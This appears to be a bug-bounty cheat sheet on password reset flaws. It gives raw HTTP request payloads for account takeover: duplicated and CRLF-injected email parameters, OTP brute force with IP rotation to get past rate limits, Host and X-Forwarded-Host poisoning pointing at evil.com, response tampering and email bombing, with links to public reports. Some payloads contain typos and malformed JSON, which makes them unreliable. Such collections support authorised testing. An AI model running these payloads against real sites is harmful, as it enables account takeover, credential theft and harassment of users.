 ## Password Reset Flaws

1. Account Takeover: Password Reset With Manipualating Email Parameter

```
POST /reset
[...]
1 email= victim@gmail.com&email=attacker@gmil.com
or
2 email= victim@gmail.com%20email=attacker@gmil.com
or
3 email= victim@gmail.com |email=attacker@gmil.com
or
4 email= "victim@gmail.com%0d%0acc:attacker@gmil.com"
or
5 email="victim@mail.com","attacker@mail.com"
or
{"email":["victim@mail.tld","atracker@mail.tld"]}
or
6 email= victim@gmail.com&code= my password reset token
```
    https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be
    https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/
    https://twitter.com/HusseiN98D/status/1254888748216655872
    https://twitter.com/HusseiN98D/status/1254888748216655872/photo/1

2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$

```
 *Use IP-Rotator on burpsuite to bypass IP based ratelimit.

3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
    https://hackerone.com/reports/226659
    https://hackerone.com/reports/167631
    https://www.acunetix.com/blog/articles/password-reset-poisoning/
    https://pethuraj.com/blog/how-i-earned-800-for-host-header-injection-vulnerability/
    https://medium.com/@swapmaurya20/password-reset-poisoning-leading-to-account-takeover-f178f5f1de87


4. Full Account Takeover via Changing Email And Password of any User through API Parameters
```
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})

```
Reference

    https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240


5.Response manipulation: Replace Bad Response With Good One
```
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)

Change Response

HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)
```
    https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3

6.No Rate Limiting: Email Bombing

    Start the Burp Suite and Intercept the password reset request
    Send to intruder
    Use null payload

    https://hackerone.com/reports/280534
    https://hackerone.com/reports/794395
    
7.Password Reset Token Leak Via Referrer
    https://hackerone.com/reports/342693
    https://hackerone.com/reports/272379
    https://hackerone.com/reports/737042
    https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a
    https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1

8. Using Expired Token
Check if the expired token can be reused

9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
Use Burp Sequencer to find the randomness or predictability of tokens.
> [For Example](https://medium.com/bugbountywriteup/how-i-discovered-an-interesting-account-takeover-flaw-18a7fb1e5359)
